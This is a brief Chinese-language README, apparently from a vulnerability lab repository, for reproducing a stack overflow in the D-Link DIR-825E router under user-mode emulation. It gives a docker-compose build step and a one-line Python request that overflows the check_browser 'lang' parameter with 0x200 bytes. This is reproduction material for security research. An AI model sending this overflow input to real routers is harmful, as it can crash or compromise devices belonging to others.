


# D-Link DIR-825E 栈溢出漏洞


## 用户级模拟 - 快速验证

手动构建：

```sh
docker-compose up -d --build
```



## 漏洞复现

```sh
python3 -c "__import__('requests').get('http://localhost:8888/check_browser?lang=%s'%('A'*0x200))"
```



## 参考链接

- https://shaqed.github.io/dlink/